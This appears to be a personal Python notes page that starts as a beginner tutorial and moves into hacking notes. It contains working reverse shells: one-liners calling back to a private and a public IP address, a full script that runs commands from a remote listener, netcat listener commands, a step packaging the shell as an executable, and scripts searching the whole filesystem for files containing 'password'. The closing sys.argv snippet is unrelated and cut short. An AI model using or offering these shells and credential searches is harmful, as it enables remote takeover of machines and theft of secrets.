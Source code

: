 # Introduction to Python and Case Study

> Python is a interpreted language


python1.py

name = "Peter";
lastname = "Mueller";
age = 31;
salery = 10000.50;
income = salery * 12;
test = "1" + "1"
test2 = '2' + '2'
mystring = "It\'s Sunnday!!!";
l=len(mystring)
print(income);
print(income-12);
print(name + " " + lastname);
print(test)
print(test2)
print(mystring);
print(l)

door_locked = True
if door_locked:
    print("door is locked")
else:
    print("door is not locked")


i = 1
while i < 5:
    print(i)
    i = i + 1

mylist = [1, 'a', "hello", 12.15]

for item in mylist:
    print(item)


for letter in "hello":
    print(letter);

def say_name (name):
    print("hi", name)

say_name("Philippe");


---------------------------------------

Execute  Python Script in Command Line
python3 python1.py

---------------------------------------

Start Webserver in current Dictionary 
sudo python3 -m http.server 88

![-parallels@kali-linux-2021-1--[~Desktop]](assets/-parallels@kali-linux-2021-1--%5B~Desktop%5D.png)



---------------------------------------

Reverse Shell to run on Target Machine

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.4",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 


Listen on my Computer that Target Machine Connect to me

nc -nlvp 4242
listening on [any] 4242 ...

---------------------------------------

List all .txt on Desktop

import glob, os
os.chdir("/home/parallels/Desktop/")
for file in glob.glob("*.txt"):
    print(file)

---------------------------------------

Print all .txt files on System

import os
for root, dirs, files in os.walk("/"):
    for file in files:
        if file.endswith(".txt"):
            print(os.path.join(root, file))

---------------------------------------

Print Path of all .txt which contains 'password'

import os
for root, dirs, files in os.walk("/"):
    for file in files:
        if file.endswith(".txt"):
            with open(os.path.join(root, file)) as f:
                if 'password' in f.read():
                    print(os.path.join(root, file))


---------------------------------------

Linux Priv Checker 
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py



---------------------------------------


Own Reverse Shell Script

import socket as socket
import subprocess as subprocess
import os as os

# Create a socket
def socket_create():
    try:
         global host
         global port
         global s
         host = "10.211.55.4"
         port = 9999
         s = socket.socket()
    except s.error as msg:
        print("Socket creation error: " + str(msg))


# Connect to remote socket
def socket_connect():
    try:
        global host
        global port
        global s
        s.connect((host, port))
    except socket.error as msg:
        print("Socket connection error: " + str(msg))


# Receive commands from remote server and run on local machine
def receive_commands():
    global s
    while True:
        data = s.recv(1024)
        if data[:2].decode("utf-8") == 'cd':
            os.chdir(data[:3].decode("utf-8"))
        if len(data) > 0:
            cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            output_bytes = cmd.stdout.read() + cmd.stderr.read()
            output_str = str(output_bytes, "utf-8")
            s.send(str.encode(output_str + str(os.getcwd()) + '> '))
            print(output_str)
    s.close()

def main():
    socket_create()
    socket_connect()
    receive_commands()

main()
        




---------------------------------------

Listen on my Computer that Target Machine Connect to me

nc -nlvp 9999

---------------------------------------

Create Executable (exe ? )  from Python
sudo pyinstaller --onefile reverseshell.py

---------------------------------------

Python One Line Reverse Shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("35.226.248.77",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


---------------------------------------

## Read sys arg

You can use sys.argv.

....

tsv_file = sys.argv[1]

xlsx_file = sys.argv[2]

...

You can run like:

main.py sample.tsv sample.xlsx